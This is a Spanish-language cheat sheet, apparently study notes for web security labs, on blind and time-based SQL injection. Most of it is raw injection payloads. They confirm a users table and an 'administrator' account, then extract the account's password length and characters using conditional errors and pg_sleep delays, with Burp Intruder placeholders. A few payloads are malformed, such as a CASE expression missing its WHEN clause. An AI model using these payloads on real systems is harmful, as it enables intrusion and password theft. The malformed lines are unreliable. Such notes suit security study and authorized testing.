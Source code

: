 ## BLIND SQLi

No tenemos respuesta de la consulta en la respuesta del servidor, pro si puede mostrar o no un mensaje o un error y dar indicio de que si el mensaje o error aparece es que pasa algo y sino es que no pasa.

```sql

#condicional response
' and '1'='1
' and '1'='2

#verificar que una tabla existe (users)
' AND (SELECT 'a' FROM users LIMIT 1)='a

#verificacion si un registro especifico existe
' AND (SELECT 'a' FROM users WHERE username='administrator')='a

#determinar la longitud de una contraseña de usuario (jugar con el intruder y snipper attack)
' AND (SELECT 'a' FROM users WHERE username='administrator' and length(password)=1)='a

#determinar la contraseña de un usuario (jugar con intruder y cluster bomb)
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
SUBSTRING(string, start, length)

#uso de condicionales para sql blind (en este ejemplo oracle)
category='||(select CASE WHEN (1=1) THEN to_char(1/0) ELSE '' END from dual)||'
category='||(select CASE WHEN (1=2) THEN to_char(1/0) ELSE '' END from dual)||'
category='||(select CASE WHEN (1=1) THEN to_char(1/0) ELSE '' END from users where username='administrator')||
category='||(select CASE WHEN (length(password)=§1§) THEN to_char(1/0) ELSE '' END from users where username='administrator')||'
category='||(select CASE THEN to_char(1/0) ELSE '' END from users where username='administrator')||'
```

## TIME BASED

```sql

#POC
category='+select sleep(10)--

#aprovechar time delay mediante condcionales
category='%3bSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- - # %3b es ;
category='%3bSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END from users where username='administrator'--

category='%3bSELECT+CASE+WHEN+(length(password)=§1§)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END from users where username='administrator'--
category='%3bSELECT+CASE+WHEN+(length(SUBSTRING(password,§1§,1)='§c§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END from users where username='administrator'--
```
